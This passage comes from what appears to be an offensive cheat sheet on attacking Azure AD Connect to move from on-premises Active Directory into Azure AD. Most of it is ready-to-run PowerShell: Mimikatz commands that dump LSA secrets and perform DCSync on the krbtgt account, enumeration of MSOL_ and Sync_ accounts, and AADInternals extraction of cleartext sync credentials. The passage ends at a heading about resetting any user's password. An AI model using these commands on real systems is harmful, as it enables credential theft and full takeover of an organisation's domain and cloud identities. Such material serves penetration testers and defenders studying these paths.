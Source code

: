 #### Extract secrets of service account

* After compromising the application

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

## On-Prem --> Azure AD Attack

### Azure AD Connect

* Check if there is an account name with `MSOL_<INSTALLATION ID>`. This user has DCSYNC rights. (or `AAD_` if installed on a DC)

* Command to check if AD connect is installed on the server `Get-ADSyncConnector`

### Password Hash Sync Abuse

* Account with `SYNC_` is created in Azure AD and can reset any users password in Azure AD.

* Passwords for both the accounts are stored in SQL server on the server where Azure AD Connect is installed and it is possible to extract them in clear-text if you have admin privileges on the server.

#### Enumerate server where Azure AD is installed (on prem command)

```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

#### Enumerate server where Azure AD is installed (Azure command)

```powershell
Import-Module .\AzureAD.psd1
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

#### Extract credentials from the server

```powershell
Import-Module .\AADInternals.psd1
Get-AADIntSyncCredentials
```

#### Run DCSync with creds of MSOL_* account

```powershell
runas /netonly /user:<DOMAIN>\MSOL_<ID> cmd 
Invoke-Mimikatz -Command '"lsadump::dcsync/user:<DOMAIN>\krbtgt /domain:<DOMAIN> /dc:<DC NAME>"'
```

### Reset password of any user
